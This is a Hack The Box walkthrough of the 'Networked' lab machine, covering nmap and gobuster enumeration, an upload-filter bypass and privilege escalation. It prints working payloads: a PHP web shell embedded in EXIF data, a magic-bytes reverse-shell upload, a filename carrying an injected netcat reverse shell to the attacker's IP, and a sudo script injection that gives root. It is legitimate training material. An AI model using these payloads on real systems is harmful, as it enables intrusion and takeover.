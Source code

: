 ```yaml
---
layout: writeup
title: Networked
description: HTB writeup
logo: /assets/img/writeups/networked_logo.png
show-avatar: false
permalink: /writeups/networked.html
OS: Linux
difficulty: Easy
release: 24 Aug 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/8292">guly</a>
cleared: 1 Nov 2019
published: 2019 11 01
redirect_from: /walkthroughs/networked.html
---
```


<h2 align="center">Enumeration</h2>
Starting with standard nmap scan...

```s
# Nmap 7.80 scan initiated Thu Oct 31 14:15:09 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.098s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 14:18:04 2019 -- 1 IP address (1 host up) scanned in 175.03 seconds

```

Seeing port 80, we navigate to the webpage and see nothing of interest, however checking the page source shows us an interesting comment

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

So we know there is more to find. However we should be directory busting anyway, so this doesn't offer much.

Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.146
```

with the appropriate wordlist yielded the following results

```sh
/uploads (Status: 301)
/photos.php (Status: 200)
/index.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```

If we navigate to /backup we see

![backup](/assets/img/writeups/networked_backup_page.png)

Downloading and extracting the tar file we find its the source files for the .php pages we found. 


![Source](/assets/img/writeups/networked_source_files.png)

Analyzing the upload.php and lib.php files we see that there is some extension checking in place, as well as a mimetype check. These are in place to attempt to only allow us to upload an image file. There are two ways I found to bypass this.


<h3 align="center">Initial foothold</h3>
**Method 1:**



We can modify the exif data of an image to give us code execution using **exiftool** as follows

```sh
exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" hilbert.jpg 

```

then we rename the image file to hilbert.php.jpg and upload it and navigate to the image and check if we have code execution

![RCE](/assets/img/writeups/networked_exifdata_torce.png)

Bingo! We can now use wget to download a shell file to the server and then navigate to it to get a reverse shell.

**Method 2:**

This method is much easier. We simply take our favorite php reverse shell (I'm using one from pentestmonkey) and append 'magicbytes' to the start of the file. This makes the mimetype check php is using think it is an image file. 

![magicbytes](/assets/img/writeups/networked_magicbytes.png)

Again we rename the file with the extension .php.jpg and upload it. Then set up a netcat listener on whatever port you edited into the reverse shell, and navigate to the image file

![reverseurl](/assets/img/writeups/networked_reverse_url.png)

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 47636
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:52:12 up  3:22,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```



<h3 align="center">Privilage Escalation</h3>
We have a shell but we are only user apache. Looking at the /etc/passwd file we see there is user named "guly". If we look in /home/guly we see two interesting files. 'crontab.guly' and 'check_attack.php'. Looking at the files we see that crontab.guly is set to run check_attack.php every 3 minutes. If we look at check_attack.php

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```



We see that it basically looks at all the files in the uploads folder that we previously placed our disguised image file in, and deletes files that don't belong. If we look closely at the code, this line in particular stands out

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

The value variable holds the name of a file and we can name it in such a way to execute code!

As user apache we have write access in that directory, so all we need to do is go to the directory and create the appropriate named file.

```sh
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ touch ";nc 10.10.14.3 1235 -c bash"

```

Then we simply have to listen on the appropriate port and wait for the program to run and then...

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 57202
whoami
guly

```

Bingo! We can now cat the user.txt file.

<h3 align="center">On To Root</h3>
Running "sudo -l" we see

```sh
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

So we can run this changename.sh file as root without a password.

A bit of googling turns up this vulnerability

https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

which tells us that due to some improper handling anything after an inputted space for the name field when running the script will be executed. So we can simply enter "bash" after the space like so

```sh
[guly@networked sbin]$ sudo ./changename.sh
interface NAME:
hilbert bash
interface PROXY_METHOD:
blah
interface BROWSER_ONLY:
blah
interface BOOTPROTO:
blah 
[root@networked network-scripts]# whoami
root

```

We now have access to the root flag.
